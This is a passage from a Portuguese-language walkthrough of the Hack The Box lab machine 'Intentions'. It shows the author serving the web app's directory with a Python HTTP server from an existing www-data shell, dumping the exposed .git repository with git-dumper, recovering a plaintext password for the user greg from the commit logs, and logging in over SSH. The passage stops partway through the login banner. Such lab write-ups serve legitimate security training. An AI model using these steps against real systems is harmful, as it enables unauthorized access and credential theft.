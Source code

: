 Dentro do diretório da aplicação web encontramos uma pasta .git, porem temos que fazer download para nossa máquina local.

![image](/assets/img/post/intentions/22.png)

Primeiro temos que iniciar um servidor usando python no servidor.

```bash
www-data@intentions:~/html/intentions$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

A seguir usamos uma ferramenta git dumper para fazer download.

```bash
┌──(c4st13l㉿0x00)-[~/HTB/Intentions/src/.git]
└─$ /opt/git-dumper/git_dumper.py http://10.10.11.220:8000/.git ~/HTB/Intentions/src
```

Não foi muito difícil encontrar informações sensíveis, pois estava nos logs.

![image](/assets/img/post/intentions/23.png)
![image](/assets/img/post/intentions/24.png)

```bash
greg:Gr3g1sTh3B3stDev3l0per!1998!
```

```bash
┌──(c4st13l㉿0x00)-[~/HTB/Intentions]
└─$ ssh greg@10.10.11.220                                                                                                               

Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 14 01:42:33 PM UTC 2023

  System load:           0.0615234375
```